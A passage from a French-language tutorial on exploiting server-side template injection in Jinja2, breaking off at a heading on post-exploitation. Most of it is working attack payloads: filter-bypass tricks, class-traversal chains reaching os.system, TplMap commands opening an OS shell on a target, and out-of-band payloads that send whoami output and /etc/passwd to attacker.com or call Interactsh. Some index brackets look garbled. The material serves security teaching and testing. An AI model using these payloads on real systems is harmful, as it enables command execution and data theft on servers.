 **Bypassing via Concaténation :**

```python
# Construction de "os" via concaténation
{{"o"+"s"|attr("system")("whoami")}}

# Utilisation d'opérations arithmétiques
{{().__class__.__bases__[^0].__subclasses__()[^59].__init__.__globals__.values()[^13]}}
```

## Outils et Automatisation de l'Exploitation

### TplMap : L'Outil de Référence

**TplMap** est l'outil automatisé le plus avancé pour la détection et l'exploitation des SSTI. Il supporte de nombreux moteurs et techniques :

```bash
# Scan automatique d'une URL
python tplmap.py -u "http://target.com/page?q=*" 

# Exploitation avec shell interactif
python tplmap.py -u "http://target.com/page?q=*" --os-shell

# Techniques d'évasion spécifiques
python tplmap.py -u "http://target.com/page?q=*" --technique R --engine Jinja2
```

### Techniques de Détection Out-of-Band

Les techniques modernes incluent des méthodes de détection **out-of-band** utilisant DNS ou HTTP callbacks :

```python
# DNS Exfiltration avec Jinja2
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['os'].system('nslookup $(whoami).attacker.com')}}

# HTTP Callback
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['urllib.request'].urlopen('http://attacker.com/'+open('/etc/passwd').read())}}
```

### Interactsh pour la Validation

L'utilisation d'**Interactsh** permet de valider l'exécution de payloads sans output direct :

```python
# Génération d'interaction Interactsh
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['os'].system('curl http://unique-id.interactsh.com')}}
```

## Exploitation Avancée et Post-Exploitation
